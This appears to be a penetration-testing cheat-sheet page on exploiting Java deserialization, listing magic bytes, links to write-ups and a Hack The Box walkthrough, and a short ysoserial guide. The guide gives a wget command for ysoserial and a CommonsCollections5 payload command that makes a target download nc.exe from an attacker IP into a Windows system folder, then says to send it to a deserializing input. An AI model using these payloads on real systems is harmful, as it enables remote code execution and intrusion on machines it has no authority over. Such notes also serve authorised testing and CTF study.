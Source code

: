 
Decompiler: `jd-gui`

# Serialised Java Data

Magic Bytes: `AC ED`
Common extensions: `javax.faces.ViewState`
Common URI file name: `.faces`
## Walkthrough

1. [Exploiting blind Java deserialization with Burp and Ysoserial – n00py Blog](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
2. [Tricking blind Java deserialization for a treat – Security Café](https://securitycafe.ro/2017/11/03/tricking-java-serialization-for-a-treat/)
3. [Hack The Box - Arkham - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/arkham/#jsf-viewstate-deserialization-vulnerability) Encrypted usage

## Interesting links

- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Exploiting blind Java deserialization with Burp and Ysoserial](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
- [How i found a 1500$ worth Deserialization vulnerability](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Encrypted Java Serialized RCE](https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d)
## Guide

YSOSerial.jar:
`wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial.jar`

This tool requires an important piece of information: a payload. See the walkthroughs above as the most time it will be blind. Hopefully in enumeration and recon a file or maybe Java Class.

````
java -jar ysoserial.jar CommonsCollections5 'cmd.exe /c powershell -c Invoke-WebRequest -Uri "http://10.10.xx.xx/nc.exe" -OutFile "C:\windows\system32\spool\drivers\color\nc.exe"' > uploadnc.payload
````

Send the payload to the input which desterilises to execute. 
